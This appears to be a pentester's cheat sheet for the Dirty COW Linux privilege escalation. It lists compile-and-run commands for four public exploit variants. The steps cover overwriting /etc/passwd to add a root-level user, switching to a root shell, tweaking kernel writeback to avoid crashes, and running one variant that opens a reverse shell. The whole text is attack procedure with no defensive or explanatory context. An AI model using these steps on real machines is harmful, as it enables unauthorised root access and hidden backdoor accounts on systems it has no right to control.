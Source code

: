 ## dirty cow - 40611.c

### Compile on target
```
gcc -pthread 40611.c -o dirtyc0w
```

### Generate hash for /etc/passwd
```
openssl passwd -1 -salt <user> <password>
```

### Append new user to /etc/passwd
```
./dirtyc0w /etc/passwd "<user>:<hash>:0:0:root:/bin/bash"
```

### Change to root shell
```
su <user>
```

## another variant - 40839.c

### Compile on target
```
gcc -pthread 40839.c -o dirty -lcrypt
```

### Append new user to /etc/passwd
```
./dirty <password>
```

### Change to root shell
```
su firefart
```

## another variant - https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c

### Compile on target - (un)comment correct payload first (x86 or x64)
```
gcc cowroot.c -o cowroot -pthread
```

### Run exploit
```
./cowroot
```

### Disable dirty writeback may prevent machine from crash
```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

## another variant - 40847.cpp

### Compile on target
```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

### Pop reverse shell (automatically disable dirty writeback)
```
./dcow -s
```

### References:
* https://www.exploit-db.com/exploits/40611  
* https://www.exploit-db.com/exploits/40839  

